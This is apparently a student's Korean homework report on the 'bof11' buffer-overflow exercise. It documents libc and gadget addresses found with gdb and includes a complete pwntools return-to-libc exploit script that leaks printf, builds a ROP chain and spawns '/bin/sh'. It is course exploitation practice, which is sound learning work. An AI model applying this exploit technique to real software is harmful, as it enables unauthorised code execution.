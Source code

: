 # Report. HW9.

## `bof11`

`gdb`로 `bof11`을 디버깅하는 상황에서 필요한 요소들의 주소값을 조사해 보았다(여러번의 실행에 걸쳐서 돌리게 되면 ASLR에 의해 매번 glibc와 기타 요소들의 주소들이 달라지기 때문에 한번의 `bof11` 실행에서 각각의 주소값들을 확인하여야 한다.)

조사한 결과...

    glibc(of one bof11)   @ 0x00007faaa2c65000.
    printf(of one bof11)  @ 0x00007faaa2cba800.
    /bin/sh(of one bof11) @ 0x00007faaa2df1d57.

와 - system의 경우 `gef`에서 `search-pattern` 명령어로 찾아본 결과 3개의 결과값이 나와서 정확하게 무엇을 쓰려고 하는지 확인해볼 필요가 있었는데, 마침 `bof9`에서 내가 필요로 하는 `system`의 주소를 출력하길래 여기서의 `glibc`와 `system`의 주소값을 확인할 수 있었다 -

"

    glibc(of bof9) @ 0x00007ffff7a0d000
    system(of bof9) @ 0x00007ffff7a52390

    pop rdi ; ret" @ 0x0000000000021102.

- `RET`와 `buf` 사이의 거리 = 18.
-

이걸 바탕으로 목요일 수업 시간에 만들었던 payload exploit 파일 뼈대를 다듬었다.

<details><summary>exp_bof11.py</summary>
<p>

```python
from pwn import *

p = process('./bof11')

p.recvuntil('printf() address : ')
printf_addr = int(p.recvuntil('\n').decode('UTF-8').strip(), 16)

glibc_offset = {}
glibc_offset['poprdi'] = 0x0000000000021102
glibc_offset['printf'] = -(0x00007faaa2c65000 - 0x00007faaa2cba800)
glibc_offset['binsh']  = -(0x00007faaa2c65000 - 0x00007faaa2df1d57)
glibc_offset['system'] = -(0x00007ffff7a0d000 - 0x00007ffff7a52390)

glibc_addr = printf_addr - glibc_offset['printf']
system_addr = glibc_addr + glibc_offset['system']
binsh_addr  = glibc_addr + glibc_offset['binsh']
poprdi_ret  = glibc_addr + glibc_offset['poprdi']

print(hex(glibc_addr))
print(hex(printf_addr))
print(hex(poprdi_ret))
print(hex(binsh_addr))
print(hex(system_addr))

payload = ('x' * 18).encode()
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

p.send(payload)
p.interactive()

```
</p></details>

# -- END --

